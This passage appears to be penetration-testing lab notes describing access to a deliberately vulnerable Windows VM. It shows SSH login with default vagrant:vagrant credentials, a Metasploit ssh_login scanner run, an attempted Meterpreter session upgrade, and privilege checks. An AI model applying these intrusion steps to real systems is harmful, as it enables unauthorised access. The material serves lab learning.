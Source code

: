 - User SSH login can be tried

```bash
ssh vagrant@10.2.16.83
# vagrant:vagrant
# WORKS!

ssh administrator@10.2.16.83
# administrator:vagrant
# DOES NOT work!

net localgroup administrators
# "vagrant" is in the Administrators Group
```

![](.gitbook/assets/image-20230424114533652.png)

- Obtain a `Meterpreter` session

```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
setg RHOST 10.2.16.83
setg RHOSTS 10.2.16.83
set USERNAME vagrant
set PASSWORD vagrant
run
session 1
# CTRL+Z to background

sessions -u 1
	[-] Target is running Windows on an unsupported architecture such as Windows ARM!

# The manual msfvenom payload upload can be tried
```

- Back on the SSH session

```bash
bash
net localgroup administrators
whoami /priv
```

